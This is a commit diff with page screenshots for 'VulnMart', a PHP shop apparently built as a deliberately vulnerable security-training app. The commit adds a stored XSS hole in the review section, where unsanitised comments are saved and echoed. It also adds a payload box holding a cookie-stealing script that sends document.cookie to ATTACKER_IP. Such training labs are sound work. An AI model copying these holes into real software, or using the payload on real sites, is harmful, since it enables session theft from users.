

Before and after one commit to JdExploit/vulnmart, a PHP site: page / in a window 1280 px wide. Shown: the whole page at 89% size. Before the commit the page ends 566 px from the top, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Update index.php

```diff
--- a/WEB VULN/webapp/index.php
+++ b/WEB VULN/webapp/index.php
@@ -1,5 +1,19 @@
 <?php
 require_once 'config.inc';
+
+// Procesar comentarios (XSS vulnerable)
+if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['comment'])) {
+    $comment = $_POST['comment'];
+    // ¡VULNERABILIDAD: XSS - Sin sanitización!
+    $comments_file = 'uploads/comments.txt';
+    file_put_contents($comments_file, date('Y-m-d H:i:s') . ": " . $comment . "\n", FILE_APPEND);
+}
+
+// Leer comentarios existentes
+$comments = [];
+if (file_exists('uploads/comments.txt')) {
+    $comments = file('uploads/comments.txt', FILE_IGNORE_NEW_LINES);
+}
 ?>
 <!DOCTYPE html>
 <html lang="en">
@@ -8,60 +22,225 @@ require_once 'config.inc';
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>VulnMart - Home</title>
     <style>
-        body { font-family: Arial, sans-serif; margin: 0; padding: 20px; background: #f0f0f0; }
-        header { background: #333; color: white; padding: 15px; border-radius: 5px; }
-        nav a { color: white; margin: 0 15px; text-decoration: none; }
-        .products { display: flex; gap: 20px; margin-top: 20px; }
-        .product { background: white; padding: 15px; border-radius: 5px; box-shadow: 0 2px 5px rgba(0,0,0,0.1); }
-        .vuln-alert { background: #ffcccc; padding: 10px; border-left: 4px solid red; margin: 10px 0; }
+        * { margin: 0; padding: 0; box-sizing: border-box; }
+        body { font-family: Arial, sans-serif; background: #f5f5f5; color: #333; }
+        .container { max-width: 1200px; margin: 0 auto; padding: 20px; }
+
+        header {
+            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
+            color: white;
+            padding: 1rem 0;
+            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+        }
+
+        .header-content {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+        }
+
+        h1 { font-size: 2rem; }
+
+        .vuln-badge {
+            background: #dc3545;
+            color: white;
+            padding: 0.2rem 0.5rem;
+            border-radius: 3px;
+            font-size: 0.8rem;
+            margin-left: 1rem;
+        }
+
+        nav { display: flex; gap: 1.5rem; }
+        nav a {
+            color: white;
+            text-decoration: none;
+            padding: 0.5rem 1rem;
+            border-radius: 4px;
+            transition: background 0.3s;
+        }
+        nav a:hover { background: rgba(255,255,255,0.2); }
+
+        .alert {
+            background: #fff3cd;
+            border: 1px solid #ffeaa7;
+            padding: 1rem;
+            margin: 1.5rem 0;
+            border-radius: 4px;
+            border-left: 4px solid #ffc107;
+        }
+
+        .products {
+            display: grid;
+            grid-template-columns: repeat(auto-fill, minmax(250px, 1fr));
+            gap: 20px;
+            margin: 2rem 0;
+        }
+
+        .product-card {
+            background: white;
+            border-radius: 8px;
+            overflow: hidden;
+            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+            transition: transform 0.3s;
+        }
+
+        .product-card:hover {
+            transform: translateY(-5px);
+        }
+
+        .product-image {
+            height: 150px;
+            background: #667eea;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            color: white;
+            font-size: 2rem;
+        }
+
+        .product-info {
+            padding: 1rem;
+        }
+
+        .product-price {
+            color: #667eea;
+            font-weight: bold;
+            font-size: 1.2rem;
+            margin: 0.5rem 0;
+        }
+
+        .btn {
+            display: inline-block;
+            background: #667eea;
+            color: white;
+            padding: 0.5rem 1rem;
+            border-radius: 4px;
+            text-decoration: none;
+            margin-top: 0.5rem;
+        }
+
+        .comments-section {
+            background: white;
+            padding: 1.5rem;
+            border-radius: 8px;
+            margin-top: 2rem;
+        }
+
+        .comment-form textarea {
+            width: 100%;
+            padding: 0.5rem;
+            margin: 0.5rem 0;
+            border: 1px solid #ddd;
+            border-radius: 4px;
+        }
+
+        .comment {
+            padding: 0.5rem;
+            border-bottom: 1px solid #eee;
+            margin: 0.5rem 0;
+        }
+
+        footer {
+            text-align: center;
+            padding: 2rem;
+            background: #333;
+            color: white;
+            margin-top: 3rem;
+        }
     </style>
 </head>
 <body>
     <header>
-        <h1>🛍️ VulnMart - Online Store</h1>
+        <div class="container">
+            <div class="header-content">
+                <div>
+                    <h1>🛍️ VulnMart <span class="vuln-badge">VULNERABLE DEMO</span></h1>
+                    <p>Educational purposes only</p>
+                </div>
                 <nav>
                     <a href="index.php">Home</a>
                     <a href="product.php">Products</a>
                     <a href="login.php">Login</a>
+                    <?php if (isset($_SESSION['is_admin']) && $_SESSION['is_admin']): ?>
                         <a href="admin/dashboard.php">Admin Panel</a>
+                    <?php endif; ?>
                 </nav>
+            </div>
+        </div>
     </header>
 
-    <div class="vuln-alert">
-        <strong>⚠️ DEMO VULNERABLE APPLICATION:</strong> This is intentionally vulnerable for educational purposes only!
+    <div class="container">
+        <div class="alert">
+            ⚠️ <strong>Warning:</strong> This application contains intentional security vulnerabilities for educational purposes only. Do not deploy in production!
         </div>
 
-    <main>
         <h2>Welcome to VulnMart!</h2>
-        <p>Your one-stop shop for all things tech.</p>
+        <p>Your one-stop shop for all things tech. This is an intentionally vulnerable web application for security training.</p>
 
         <div class="products">
-            <div class="product">
+            <div class="product-card">
+                <div class="product-image">💻</div>
+                <div class="product-info">
                     <h3>Laptop Gaming</h3>
-                <p>$1200.00</p>
-                <a href="product.php?id=1">View Details</a>
+                    <p>Powerful gaming laptop with RTX 4090</p>
+                    <div class="product-price">$1,200.00</div>
+                    <a href="product.php?id=1" class="btn">View Details</a>
                 </div>
-            <div class="product">
+            </div>
+
+            <div class="product-card">
+                <div class="product-image">📱</div>
+                <div class="product-info">
                     <h3>Smartphone Pro</h3>
-                <p>$800.00</p>
-                <a href="product.php?id=2">View Details</a>
+                    <p>Latest smartphone with 5G</p>
+                    <div class="product-price">$800.00</div>
+                    <a href="product.php?id=2" class="btn">View Details</a>
+                </div>
+            </div>
+
+            <div class="product-card">
+                <div class="product-image">🎧</div>
+                <div class="product-info">
+                    <h3>Wireless Headphones</h3>
+                    <p>Noise cancelling wireless headphones</p>
+                    <div class="product-price">$150.00</div>
+                    <a href="product.php?id=3" class="btn">View Details</a>
+                </div>
             </div>
         </div>
 
         <!-- ¡VULNERABILIDAD: XSS en comentarios! -->
-        <section>
-            <h3>Customer Reviews</h3>
-            <form method="POST">
-                <textarea name="comment" placeholder="Leave a review..."></textarea><br>
-                <input type="submit" value="Submit Review">
+        <div class="comments-section">
+            <h3>Customer Reviews (XSS Vulnerable)</h3>
+
+            <form method="POST" class="comment-form">
+                <textarea name="comment" placeholder="Leave a review..." rows="3" required></textarea>
+                <button type="submit" class="btn">Submit Review</button>
             </form>
-            <?php
-            if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['comment'])) {
-                // ¡VULNERABILIDAD: XSS - Sin sanitización!
-                echo "<div class='review'>" . $_POST['comment'] . "</div>";
-            }
-            ?>
-        </section>
-    </main>
+
+            <div class="comments-list">
+                <h4>Recent Reviews:</h4>
+                <?php foreach(array_reverse($comments) as $comment): ?>
+                    <div class="comment">
+                        <!-- ¡VULNERABILIDAD: XSS - Sin sanitización! -->
+                        <?= $comment ?>
+                    </div>
+                <?php endforeach; ?>
+            </div>
+
+            <div style="background: #ffcccc; padding: 10px; margin-top: 15px; border-radius: 4px;">
+                <h4>XSS Test Payloads:</h4>
+                <code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code><br>
+                <code>&lt;script&gt;fetch('http://ATTACKER_IP:8000/steal?cookie='+document.cookie)&lt;/script&gt;</code>
+            </div>
+        </div>
+    </div>
+
+    <footer>
+        <p>VulnMart &copy; 2024 - Security Training Environment</p>
+        <p style="font-size: 0.9rem; opacity: 0.8; margin-top: 0.5rem;">
+            Vulnerabilities: SQLi, XSS, LFI, CSRF, File Upload, SSRF, Deserialization
+        </p>
+    </footer>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
